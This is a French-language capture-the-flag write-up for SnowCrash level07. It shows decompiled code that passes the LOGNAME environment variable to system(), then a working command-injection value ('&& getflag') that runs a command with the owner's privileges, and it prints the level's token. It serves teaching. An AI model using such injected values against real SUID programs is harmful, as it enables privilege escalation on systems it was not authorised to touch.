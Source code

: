 # Niveau 07 : Injection de Commande via Variable d'Environnement

## Aperçu

Dans ce niveau, nous avons rencontré un binaire SUID (`level07`) appartenant à `flag07` qui était vulnérable à l'injection de commande via les variables d'environnement.

## Analyse

### Examen Initial

Lorsque nous vérifions le binaire pour la première fois :

```console
level07@SnowCrash:~$ ls -l
-rwsr-sr-x 1 flag07  level07 8805 Mar  5  2016 level07
```

Le binaire a le bit SUID activé (notez le 's' dans les permissions), ce qui signifie qu'il s'exécute avec les privilèges de son propriétaire (`flag07`).

Lorsqu'il est exécuté, le binaire affiche simplement "level07" :

```console
level07@SnowCrash:~$ ./level07
level07
```

### Analyse du Binaire

L'analyse à l'aide d'un décompilateur comme Ghidra, qui tente de reconstruire un code source de type C à partir du binaire compilé, révèle la logique vulnérable principale :

```c
  // Extrait décompilé par Ghidra (les noms de variables peuvent légèrement différer)
  pcVar1 = getenv("LOGNAME");
  asprintf(&local_1c,"/bin/echo %s ",pcVar1);
  iVar2 = system(local_1c);
```

Ce code montre explicitement que le programme :

1.  Récupère la variable d'environnement `LOGNAME` en utilisant `getenv`.
2.  Met en forme cette valeur dans une chaîne de commande `/bin/echo %s ` en utilisant `asprintf`.
3.  Exécute la chaîne de commande résultante en utilisant `system()`.

La vulnérabilité réside dans l'incorporation directe de la valeur non désinfectée de `LOGNAME` dans la chaîne de commande passée à `system()`.

## Exploitation

La vulnérabilité peut être exploitée en modifiant la variable d'environnement `LOGNAME` pour inclure des commandes shell :

```console
level07@SnowCrash:~$ export LOGNAME="&& getflag"
level07@SnowCrash:~$ ./level07
Check flag.Here is your token : fiumuikeil55xe9cu4dood66h
```

### Comment ça marche :

1.  Nous définissons `LOGNAME` à `"&& getflag"`.
2.  Lorsque le programme exécute `system("/bin/echo %s", getenv("LOGNAME"))`, il exécute effectivement :
    ```
    system("/bin/echo && getflag")
    ```
3.  Dans la syntaxe shell, l'opérateur `&&` exécute la deuxième commande si la première réussit.
4.  `/bin/echo` sans arguments affiche simplement une nouvelle ligne et se termine avec succès.
5.  Ensuite, `getflag` s'exécute avec les privilèges de `flag07`, nous donnant le jeton.

## Leçon de Sécurité

Ce niveau démontre le danger de passer des entrées utilisateur ou des variables d'environnement non désinfectées à des fonctions comme `system()`. Validez et désinfectez toujours toute entrée qui pourrait affecter l'exécution de commandes.

## Jeton

```
fiumuikeil55xe9cu4dood66h
```
